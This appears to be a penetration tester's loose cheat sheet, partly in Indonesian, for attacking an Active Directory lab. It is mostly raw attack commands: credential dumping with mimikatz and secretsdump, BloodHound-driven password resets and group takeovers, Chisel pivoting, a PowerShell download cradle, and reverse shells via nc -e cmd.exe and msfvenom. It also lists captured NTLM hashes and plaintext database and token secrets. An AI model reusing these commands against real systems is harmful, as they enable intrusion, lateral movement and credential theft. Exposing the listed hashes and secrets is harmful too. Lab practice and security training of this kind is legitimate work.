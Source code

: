 RETAC AD:

First Enumration
- file upload vuln
- got cve, upload, got shell
- upload reverse shell
- run printspoofer
- run powershell
- windows post exploitation
- net users /domain
PS C:\Temp> Get-ChildItem *.txt
20230610164245_loot.zip

#You have to got these!
Apa nama domain active directorynya? mdm.com
Apa nama hostname dari komputer yg ditakeover?
- MDM-WS01-NEW
Ada berapa jumlah user yang ada di domain dan siapa nama user yang sudah didapetin hashnya?
- Administrator : aad3b435b51404eeaad3b435b51404ee:1e91cb2d3e08002c2b4d0dae9be9ab46
- Guest
- Default Account
- WDAGUtilityAccount : 3b327e3da05ab910eaef0ea74a492a73
- kocho : 2799fae8a085db9f2f298d6378c5df32

Get-NetUser -Domain mdm.local | Where-Object {$_.servicePrincipalName} | select name, samaccountname, serviceprincipalname | Export-CSV -NoTypeInformation kerberoastable.csv

impacket, getnpusers.py 
impacket smbserver
secretdump.py
Shortest Paths from Owned Principals
add user to near domain local
net user ippsec Pleasesubs /add /domain 
net group "group name" /add username
IEX(New-Object Net.WebClient).downloadString(http://1.1.1.1/name.ps1')

crackmapexec.py smb ip -u adnub -H hash
kali: mkdir smb -> impacket-smbserver share 'pwd'
win: net use z: \\IP\share
win: copy file.zip z:

https://www.youtube.com/watch?v=ob9SgtFm6_g&t=2133s : 37

Set-DomainOjectOwner -Identity Herman -OwnerIdentity nico -verbose
Add-DomainObjectAcl -TargetIdentity Herman -PrincipalIdentity nico -Rights ResetPassword -Verbose
Invoke-Bloodhound -CollectionMethod All
$pass = ConverTo-SecureString 'admin' -AsPlaintext -Force
Set-DomainUserPassword Herman -AccountPassword $pass -Verbose
Get-DomainGroup -MemberIdentity Herman | select samaccountname
$cred = New-Object System.Management.Automation.PSCredential('HTB\Herman', $pass)
Add-DomainGroupMember -Identity 'Backup_Admins' -Members Herman -Credential $cred
Get-DomainGroup -MemberIdentiy Herman | select samaccountname

Back to admin directory -> type * | findstr password

proxychains smbclient -U mdm.com/kocho --pw-nt-hash //200.10.10.50/Developer
proxychains crackmapexec smb '200.10.10.50' -u 'kocho' -H '2799fae8a085db9f2f298d6378c5df32:2799fae8a085db9f2f298d6378c5df32' -d 'mdm.com' --share

Get-NetUser /domain -> doma -> IP
Pivoting with Chisel:
 create chisel server in kali
 creete chisel client in windows

Run Proxychains nmap/crackmapexec/smblient/rdp/win-evilrm
Enumeration -> get creds

Bloodhound Checks:
pwn user (kocho)
domain computer -> directcat 

git log
git diff

direct members
outbound object control -> punya privilege apa saja
inbound obect contol -> siapa yg bisa masuk kesana / gimana cara kita masuk

-NODE_ENV=production
-PG_DB=learning
-PG_USER=developer
-PG_PASS=@RumblingTheWorld
-PORT=4444
-TOKEN_SECRET=IamSuperSecret

Invoke-Bloodhound -CollectionMethod All -Domain CONTROLLER.local -ZipFileName loot.zip
mimikatz:
privilege::debug
token::elevate
sekurlsa::logonpasswords

./chisel server -p 8001 --reverse
./chisel client 10.10.101.51:8001 R:1080:socks

xfreerdp
. .\powerup.ps

Pivoting:
kali : chisel server -p 8001 --reverse
win1 : chisel client 10.8.0.5:8001 R:1088:socks

win1 : chisel client 10.8.0.5:8001 0.0.0.0:1234:10.8.0.5:80 -> tunnel to port 80
kali : python3 -m http.server 80
win2 : curl -o file.exe http://ipwin1:1234/file.exe

win1 : chisel client 10.8.0.5:8001 0.0.0.0:9000:10.8.0.5:99 -> tunnel to port 99
kali : nc -nvlp 99
win2 : nc -nv ipwin1 9000 -e cmd.exe

autorecon ip
dirsearch 0u http
gobuster dir -w raft-medium txt,php/hsp,aspx -u http:ip -t 50 -b 404,403 -o root_8080.log
impacket

xmindmap

prives linux:
sudo -l
uname -a
linpeas

privesc wins:
whoami /priv (juicy potato/rogue potato)
winpeas
powerup

Reporting:
hostname && whoami && cat /root/proof.txt && ip a
hostname && whoami && type \users\Administrator\desktop\proof.txt && ipconfig

bug sql query: select user, authentication_string from user;
gtfobins -> for binary exploit
create malicious binary(calendar) (#!/bin/bash enter bash) then:
chmod +x binary
sudo /usr/local/bin/exiftool -filename=/usr/bin/calendar (binary path)
sudo /usr/bin/calendar

path traversal vuln

add dns -> /etc/hosts

command injection vuln:
powershell -c iwr http://ipkali/nc.exe -OutFile \windows\temp\nc.exe;windows\temp\nc.exe -nv ipkali 443 -e cmd

msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.8.0.5 LPORT=66 -f exe -o sixreverse.exe
